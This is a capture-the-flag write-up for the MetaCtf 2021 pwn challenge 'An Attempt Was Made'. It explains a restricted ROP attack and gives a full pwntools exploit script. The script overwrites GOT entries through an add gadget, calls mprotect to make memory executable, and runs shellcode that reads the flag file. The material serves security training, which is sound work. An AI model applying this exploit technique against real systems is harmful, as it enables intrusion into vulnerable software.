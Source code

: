 # An Attempt Was Made

was a pwn challenge from MetaCtf 2021.

A kind of restricted ROP. I got first blood on it, and it was pretty fun..

is has a little seccomp to forbid execve, as you can see:

![](https://raw.githubusercontent.com/nobodyisnobody/write-ups/main/MetaCtf.2021/pwn/A.Attempt.Was.Made/pics/seccomp.png)

the binary itself as little protection, it is only partial RELRO, and no PIE

![](https://raw.githubusercontent.com/nobodyisnobody/write-ups/main/MetaCtf.2021/pwn/A.Attempt.Was.Made/pics/checksec.png)

the author of the challenge removed the libcsu_init gadgets, that ease the settings of rdi, rsi, rdx..

and very little usefull gadgets are available to set the registers...but..

the almost available add gadget (at least for gcc x64 produced binaries)  is present, with a gadget for setting rbp and rbx..

```
gadget_add = 0x0000000000401178 # add dword ptr [rbp - 0x3d], ebx ; nop dword ptr [rax + rax] ; ret
gadget_pop = 0x00000000004013f2 # pop rbx ; pop rbp ; mov r12, qword ptr [rsp] ; add rsp, 8 ; ret
```

and with partial RELRO it's more than enough for us..

so for exploitation, we will change GOT entries with the add gadget, to make them point to various gadgets we need in libc..

as the libc is provided, we know the various offsets from functions addresses in GOT to the gadgets..

one time we change a got entry to make it point to a "pop rdi" gadget

the next time, to a "pop rdx",  etc...

you got the idea...

then with the ROP, we do a mprotect on bss to make it RWX..

we call a read, to copy our shellcode to the bss..

then we execute it...

and that's all..  here is the exploit...

```python3
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *

context.update(arch="amd64", os="linux")
context.log_level = 'info'

gadget_add = 0x0000000000401178 # add dword ptr [rbp - 0x3d], ebx ; nop dword ptr [rax + rax] ; ret
gadget_pop = 0x00000000004013f2 # pop rbx ; pop rbp ; mov r12, qword ptr [rsp] ; add rsp, 8 ; ret

def add_gadget(address, val):
  global gadget_add
  global gadget_pop
  return p64(gadget_pop)+p64(val & 0xffffffff)+p64(address+0x3d)+p64(0)+p64(gadget_add)

exe = ELF('./chall')
libc = ELF('./libc.so.6')
rop = ROP(exe)

host, port = "host.cg21.metaproblems.com", "3030"

if args.REMOTE:
  p = remote(host,port)
else:
  p = process(exe.path)


pop_rbp = 0x0000000000401179 # pop rbp ; ret

# libc gadgets
gadget3 = 0x000000000008ff1d # pop rdi ; ret
gadget4 = 0x000000000008ef1b # pop rdx ; ret
gadget5 = 0x0000000000066337 # or esi, edx; movd xmm0, esi; ret;
gadget6 = 0x000000000004f549 # xchg eax, esi; ret;
gadget7 = 0x000000000006991a # mov rax, rbp; pop rbp; ret;
gadget8 = 0x000000000009cfc2 # syscall; ret;

payload = 'A'*0x10+p64(gadget3-libc.symbols['__isoc99_scanf'])+p64(0xdeadcafe)+p64(0xcafebabe)+p64(pop_rbp)+p64(exe.got['__isoc99_scanf']+0x3d)+p64(gadget_add)	# change __isoc99_scanf to gadget3

payload += add_gadget(exe.got['setvbuf'], (gadget7-libc.symbols['setvbuf']))	# change setvbuf to gadget7
payload += p64(pop_rbp)+p64(0x1000)				# set rbp=0x1000
payload += p64(exe.symbols['setvbuf'])+p64(0) 			# set rax = rbp
payload += add_gadget(exe.got['setvbuf'], (gadget6-gadget7))    # change setvbuf to gadget6
payload += p64(exe.symbols['setvbuf'])				# set esi = eax = 0x1000

payload += add_gadget(exe.got['setvbuf'], (gadget4-gadget6))			# change setvbuf to gadget4
payload += p64(exe.symbols['__isoc99_scanf'])+p64(0x404000)+p64(exe.symbols['setvbuf'])+p64(7)		# set rdi = 0x404000 ,  then  set rdx = 7

payload += add_gadget(exe.got['__isoc99_scanf'], (gadget7-gadget3))		# change __isoc99_scanf to gadget7
payload += p64(pop_rbp)+p64(10)+p64(exe.symbols['__isoc99_scanf']) +p64(0)	# set rbp=10  then rax=rbp

payload += add_gadget(exe.got['__isoc99_scanf'], (gadget8-gadget7))		# change __isoc99_scanf to gadget8
payload += p64(exe.symbols['__isoc99_scanf'])  					# syscall  --> mprotect(0x404000, 0x1000, 7)    -->   set bss to RWX

payload += add_gadget(exe.got['__isoc99_scanf'], (gadget3-gadget8))             # change __isoc99_scanf to gadget3
payload += p64(exe.symbols['__isoc99_scanf']) + p64(0)		# set rdi = 0

payload += add_gadget(exe.got['__isoc99_scanf'], (gadget7-gadget3))             	# change __isoc99_scanf to gadget7
payload += p64(pop_rbp)+p64(0x404800)+p64(exe.symbols['__isoc99_scanf']) + p64(0)	# set rbp = 0x404800, then rax = rbp

payload += add_gadget(exe.got['__isoc99_scanf'], (gadget6-gadget7))                     # change __isoc99_scanf to gadget6
payload += p64(exe.symbols['__isoc99_scanf'])						# set rsi = 0x404800

payload += add_gadget(exe.got['__isoc99_scanf'], (gadget4-gadget6))			# change __isoc99_scanf to gadget4
payload += p64(exe.symbols['__isoc99_scanf']) + p64(0x100)				# set rdx = 0x100

payload += add_gadget(exe.got['__isoc99_scanf'], (gadget7-gadget4))                     # change __isoc99_scanf to gadget7
payload += p64(pop_rbp)+p64(0)+p64(exe.symbols['__isoc99_scanf']) + p64(0)		# set rbp = 0 ,  then rax = rbp


payload += add_gadget(exe.got['__isoc99_scanf'], (gadget8-gadget7))                     # change __isoc99_scanf to gadget8
payload += p64(exe.symbols['__isoc99_scanf'])				#  syscall -->  read(0, 0x404800, 0x100)
payload += p64(0x404800)						# jump to our shellcode



p.sendlineafter('bytes?\n', str(len(payload)))

p.send(payload)

# send our shellcode to the ROP, dump flag.txt
shellc = asm(shellcraft.readfile('/chall/flag.txt',1))
p.send(shellc)

p.interactive()


```
*nobodyisnobody still pwning things...*

